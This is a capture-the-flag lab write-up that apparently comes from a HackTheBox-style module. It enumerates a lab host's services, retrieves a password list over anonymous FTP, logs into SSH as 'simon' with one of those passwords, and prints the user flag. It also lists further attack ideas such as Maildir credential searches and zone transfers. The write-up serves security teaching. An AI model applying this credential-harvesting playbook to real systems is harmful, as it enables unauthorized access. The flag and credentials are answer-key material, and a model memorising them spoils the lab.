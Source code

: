 # Attacking Common Services - Medium

## Engagement Overview

**Target:** Internal server in `inlanefreight.htb`

**Box IP:** `10.129.111.238`

**OS Details:** Linux 4.15–5.19; MikroTik RouterOS 7.2–7.5 (Linux 5.6.3)

**Description:**
The host appears to manage/store emails and files and has been used primarily for testing. It is an internal system and not heavily utilized, which likely contributed to lax controls (e.g., anonymous FTP with sensitive data).

------

## Objectives

- Enumerate exposed services and versions
- Identify a viable initial access vector
- Obtain valid credentials and establish shell access
- Capture the user flag

------

## Service Enumeration

### Nmap

```bash
PORT      STATE    SERVICE  VERSION
22/tcp    open     ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
53/tcp    open     domain   ISC BIND 9.16.1 (Ubuntu Linux)
110/tcp   open     pop3     Dovecot pop3d
995/tcp   open     ssl/pop3 Dovecot pop3d
2121/tcp  open     ftp      ProFTPD
30021/tcp open     ftp      ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x   2 ftp      ftp          4096 Apr 18  2022 simon
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Notes:** Anonymous FTP on port 30021 with a user directory `simon/` is promising. POP3/POP3S suggests local mailboxes might exist for credential leaks, but FTP yielded faster results.

------

## Methodologies

1. **Anonymous FTP → Credential Harvesting**

   - Connected to `ftp://10.129.111.238:30021` anonymously and enumerated `simon/`.
   - Recovered `mynotes.txt` containing multiple candidate secrets.

   ```bash
   ftp> more mynotes.txt
   234987123948729384293
   +23358093845098
   ThatsMyBigDog
   Rock!ng#May
   Puuuuuh7823328
   8Ns8j1b!23hs4921smHzwn
   237oHs71ohls18H127!!9skaP
   238u1xjn1923nZGSb261Bs81
   ```

2. **Credential Testing → SSH Access**

   - Tried candidates against SSH and confirmed working creds:

   ```text
   host: 10.129.111.238
   login: simon
   password: 8Ns8j1b!23hs4921smHzwn
   ```

------

## Initial Access – `simon` via SSH

**Vulnerability Explanation:**
Sensitive credentials stored in world-readable location on an anonymously accessible FTP share allowed lateral authentication to SSH.

**Penetration (commands):**

```bash
ssh simon@10.129.111.238
```

**Result:**

```bash
simon@lin-medium:~$ ls
flag.txt  Maildir
simon@lin-medium:~$ cat flag.txt
HTB{1qay2wsx3EDC4rfv_M3D1UM}
```

------

## Privilege Escalation

Not required for objective completion (user flag obtained). Further PE left out-of-scope for this quick hit.

------

## Post-Exploitation

Potential follow‑ups if expanding scope:

- Inspect `Maildir/` for additional creds/tokens
- Enumerate BIND (TCP/53) for zone transfers or misconfigs
- Review ProFTPD configuration for writeable paths / module abuse

------

## Tools Utilized

- `nmap`
- `ftp`
- `ssh`

------

## Key Takeaways

- Anonymous FTP exposing user notes is a classic but still effective failure.
- Credential reuse from testing artifacts enabled straight SSH access.
- Quick wins: check high/odd FTP ports and user home dirs for plaintext secrets.